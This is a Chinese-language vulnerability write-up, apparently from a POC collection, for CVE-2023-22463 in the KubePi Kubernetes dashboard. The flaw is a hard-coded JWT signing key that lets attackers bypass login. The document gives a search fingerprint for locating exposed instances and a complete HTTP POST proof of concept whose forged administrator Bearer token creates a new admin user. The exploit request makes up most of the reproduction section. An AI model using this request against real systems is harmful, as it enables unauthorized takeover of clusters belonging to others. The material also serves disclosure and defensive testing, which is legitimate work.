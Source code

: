 # 

# KubePi JwtSigKey 登陆绕过漏洞 CVE-2023-22463

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi 中存在 JWT硬编码，攻击者通过硬编码可以获取服务器后台管理权限，添加任意用户。

## 漏洞影响

KubePi

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登陆页面

![image-20230828145208969](images/image-20230828145208969.png)

验证POC

```
POST /kubepi/api/v1/users HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
accept: application/json
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfX0.XxQmyfq_7jyeYvrjqsOZ4BB4GoSkfLO2NvbKCEQjld8

{
  "authenticate": {
       "password": "{{randstr}}"
  },
  "email": "{{randstr}}@qq.com",
  "isAdmin": true,
  "mfa": {
          "enable": false
   },
  "name": "{{randstr}}",
  "nickName": "{{randstr}}",
  "roles": [
       "Supper User"
  ]
}
```

![image-20230828145242203](images/image-20230828145242203.png)
